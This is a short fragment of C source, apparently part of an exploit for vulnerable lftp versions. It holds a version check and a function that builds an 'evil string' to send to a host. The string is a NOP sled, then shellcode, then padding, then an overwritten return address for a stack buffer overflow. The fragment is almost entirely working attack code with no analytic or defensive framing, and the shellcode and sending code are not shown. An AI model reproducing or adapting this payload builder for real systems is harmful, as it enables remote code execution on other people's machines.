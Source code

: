 
    void
    check_version(char *version)
    {
      int i;
      for(i=0;i<sizeof(lftp_versions);i++)
        if(!strcmp(lftp_versions[i],version))
        {
          fprintf(stdout,"(vulnerable).\n");
          return;
        }
      fprintf(stdout,"(not vulnerable).\n");
      return;
    }


    char
    *build(char *host)
    {
      char *buffer,*ptr;
      int i;
      unsigned long *addr_ptr;

      fprintf(stdout,"[%s] Building evil string to send (using ret 0x%x)...\n",host,ret_addr);

      buffer = (char *)malloc(SIZE+1);

      if(!buffer)
      {
        fprintf(stderr,"[-] Can't allocate memory,exiting...\n");
        exit(1);
      }

      ptr = buffer;
      memset(ptr,0x90,BUFFERSIZE-strlen(shellcode));
      ptr += BUFFERSIZE-strlen(shellcode);

      if((i = check_shellcode(host)) < 0) exit(1);

      for(i=0;i<strlen(shellcode);i++)
        *ptr++ = shellcode[i];

      /* You might need to modify the padding too */
      addr_ptr = (long *)ptr;
      for(i=0;i<24;i++)
       *(addr_ptr++) = DUMMY1;
      for(i=0;i<8;i++)
       *(addr_ptr++) = DUMMY2;
      *(addr_ptr++) = ret_addr; /* EIP */
      *(addr_ptr++) = DUMMY2;

      ptr = (char *)addr_ptr;
      *ptr = 0x0;
      return buffer;
    }
